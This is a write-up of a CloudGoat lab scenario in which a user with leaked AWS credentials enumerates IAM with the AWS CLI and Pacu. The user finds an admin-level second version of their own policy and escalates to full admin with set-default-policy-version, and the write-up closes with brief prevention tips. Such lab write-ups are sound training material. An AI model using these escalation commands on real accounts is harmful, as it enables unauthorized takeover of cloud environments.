


---

According to the official documentation for this scenario ([here](https://github.com/RhinoSecurityLabs/cloudgoat/tree/master/scenarios/iam_privesc_by_rollback)) the overall goal is to "Acquire full admin privileges."

We can create the challenge by running

```bash
python3 cloudgoat.py create iam_privesc_by_rollback
```

The build process will begin and when it finishes we will be provided with a set of credentials for the Raynor user account.

---

### Raynor
In the real world, we probably wouldn't just be handed these credentials. However, people make mistakes and credentials are often accidentally exposed. Let's start doing basic enumeration and see if we can determine what things we have access to. To do this we'll run the following set of commands just to poke at a few of the more common services:

```bash
aws --profile solus s3 ls
aws --profile solus ec2 describe-instances
aws --profile solus iam list-roles
aws --profile solus lambda list-functions
```


All of the api calls fail with the exeption being iam list-roles. We can clean the output up by using jq:

```bash
aws --profile raynor iam list-roles | jq '.Roles[].RoleName'
```

This command will produce an output similar to the one below.



The key takeaway here is that we have access to a user account with some level of IAM permissions. How much access do we have? One way to find out is by leveraging Pacu to bruteforce those permissions for us. The other option is to make iam calls one at a time to determine where our limits may exist. For this example we'll leverage Pacu and run the iam__enum_users_roles_policies_groups module.

```python
run iam__enum_users_roles_policies_groups
```

Once the module finishes its execution we see that it successfully enumeated various aspects of the account.



We can run the data `IAM command` to see information associated with the enumeration. At first glance of the policies it appears there is a specific policy listed for our user account: `cg-raynor-policy`

```json
"Policies": [
 {
  "PolicyName": "cg-raynor-policy",
  "PolicyId": "ANPA5X73I5MBNC3PRT6CO",
  "Arn": "arn:aws:iam::121212121212:policy/cg-raynor-policy",
  "Path": "/",
  "DefaultVersionId": "v1",
  "AttachmentCount": 1,
  "IsAttachable": true,
  "CreateDate": "Mon, 25 May 2020 14:24:46",
  "UpdateDate": "Mon, 25 May 2020 14:24:48"
 }
],
```

Looking at the details above we can also tell that the policy is curently attached `AttachmentCount: 1` and the version being used is v1 `DefaultVersionId: v1`. If we wanted to leverage the aws cli in place of Pacu we could run the command below. The command is filtering to show only those policies which are currently attached to a resource.

```bash
aws --profile raynor iam list-policies --only-attached --scope Local

{
 "Policies": [
  {
   "PolicyName": "cg-raynor-policy",
   "PolicyId": "ANPA5X73I5MBNC3PRT6CO",
   "Arn": "arn:aws:iam::121212121212:policy/cg-raynor-policy",
   "Path": "/",
   "DefaultVersionId": "v1",
   "AttachmentCount": 1,
   "PermissionsBoundaryUsageCount": 0,
   "IsAttachable": true,
   "CreateDate": "2020-05-25T14:24:46Z",
   "UpdateDate": "2020-05-25T14:24:48Z"
  }
 ]
}
```

The next question we have to answer is the policy attached to our user account? We can do that by quering the list-attached-user-policies endpoint and our user name raynor. An example command and output is below.

```bash
aws --profile raynor iam list-attached-user-policies --user-name raynor

{
 "AttachedPolicies": [
  {
   "PolicyName": "cg-raynor-policy",
   "PolicyArn": "arn:aws:iam::121212121212:policy/cg-raynor-policy"
  }
 ]
}
```

---

### Versions

Good news, it appears the raynor policy is currently associated with the raynor user account. Lets see if we can learn more about what we are allowed to do and what we are not allowed to do. We can accomplish this by making a call to the `get-policy-version` endpoint as seen below.

```bash
aws --profile raynor iam get-policy-version --policy-arn arn:aws:iam::121212121212:policy/cg-raynor-policy --version-id v1
{
 "PolicyVersion": {
  "Document": {
   "Version": "2012-10-17",
   "Statement": [
    {
     "Sid": "IAMPrivilegeEscalationByRollback",
     "Action": [
      "iam:Get*",
      "iam:List*",
      "iam:SetDefaultPolicyVersion"
     ],
     "Effect": "Allow",
     "Resource": "*"
    }
   ]
  },
  "VersionId": "v1",
  "IsDefaultVersion": true,
  "CreateDate": "2020-05-25T14:24:46Z"
 }
}
```


For the call to work we specified the policy arn as well as the version currently applied. From the output it looks like we can make calls to iam resources if they are a Get, List, or SetDefaultPolicyVersion. That last one is interesting. Perhaps our currently policy has more than one version? Let's check to see if version 2 of our policy exists. The results are below:

```bash
aws --profile raynor iam get-policy-version --policy-arn arn:aws:iam::121212121212:policy/cg-raynor-policy --version-id v2

{
 "PolicyVersion": {
  "Document": {
   "Version": "2012-10-17",
   "Statement": [
    {
     "Action": "*",
     "Effect": "Allow",
     "Resource": "*"
    }
   ]
  },
  "VersionId": "v2",
  "IsDefaultVersion": false,
  "CreateDate": "2020-05-25T14:24:48Z"
 }
}
```

Interesting, a version 2 of the policy does exist, and it gives full admin access to the entire account. Our current policy provides us with the ability to set the default version of a policy. If we were to change the default version of the policy currently applied to our user account from 1 to 2 we could escalate our privledges to full admin.

The command below will accomplish this.

```bash
aws --profile raynor iam set-default-policy-version --policy arn:aws:iam::121212121212:policy/cg-raynor-policy --version-id v2
```

If successful there will be no response. We can validate the command was successful by re-running the `list-policies` command:

```bash
aws --profile raynor iam list-policies --only-attached --scope Local

{
 "Policies": [
  {
   "PolicyName": "cg-raynor-policy",
   "PolicyId": "ANPA5X73I5MBNC3PRT6CO",
   "Arn": "arn:aws:iam::121212121212:policy/cg-raynor-policy",
   "Path": "/",
   "DefaultVersionId": "v2",
   "AttachmentCount": 1,
   "PermissionsBoundaryUsageCount": 0,
   "IsAttachable": true,
   "CreateDate": "2020-05-25T14:24:46Z",
   "UpdateDate": "2020-05-25T18:28:50Z"
  }
 ]
}
```

Notice the default version has changed from `v1` to `v2`. At this point we have full administrative rights to this aws account.

---

### Prevention
So, how do we prevent this. Where did the owner of this account go wrong? There are a few places where this could have be stopped. Lets dive into them.

1. The most important is to not expose credentials. If we were not able to leverage raynors credentials we would not have been able to authenticate and further escalate privileges.
2. Limit what users can do. The policy associated with raynor allowed for too much access. I imagine in the real world a user with this set of actions at there disposal would likely have much more persmissions within the account.